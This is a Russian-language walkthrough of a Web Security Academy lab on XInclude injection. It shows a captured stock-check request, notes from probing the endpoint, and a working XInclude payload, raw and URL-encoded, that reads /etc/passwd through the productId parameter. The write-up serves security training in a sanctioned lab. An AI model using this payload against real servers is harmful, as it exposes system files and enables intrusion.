 Эта лаборатория имеет функцию «проверка запасов», которая внедряет пользовательский ввод в XML-документ на стороне сервера, который впоследствии анализируется.

Поскольку вы не контролируете весь документ XML, вы не можете определить DTD, чтобы запустить классическую атаку XXE.

Чтобы решить лабораторию, введите `XInclude` утверждение, чтобы получить содержимое `/etc/passwd` файл.


## Дано

уязвимость в функции «проверка запасов»
не контролируем весь документ XML, не можете определить DTD

## Задача

получить содержимое `/etc/passwd` файл

# Решение

- Формат запроса POST
```
POST /product/stock HTTP/2
Host: 0ae800e204c6980480c7268d00c00028.web-security-academy.net
Cookie: session=g3awD3ddUKfTt8ytfrBXRGH9RF7WSAy6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0ae800e204c6980480c7268d00c00028.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ae800e204c6980480c7268d00c00028.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers
Connection: keep-alive

productId=1&storeId=1
```

- Проверяем Content-Type: application/x-www-form-urlencoded
	`application/xml` - ответ 200
	`text/xml

- Формируем xxe инъекцию 
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
    <productId>1</productId>
    <storeId>1</storeId>
```
не принимает выдаёт "Missing parameter: product ID"

- Проверили внедрение entity
`productId=%26entity&storeId=1` - ответ "Entities are not allowed for security reasons"
Значит обработка идёт по  xml

- Формируем инъекцию 
```
<root xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include href="file:///etc/passwd" parse="text"/> </root>

productId=<root+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude">+<xi%3ainclude+href%3d"file%3a///etc/passwd"+parse%3d"text"/>+</root>&storeId=1
```







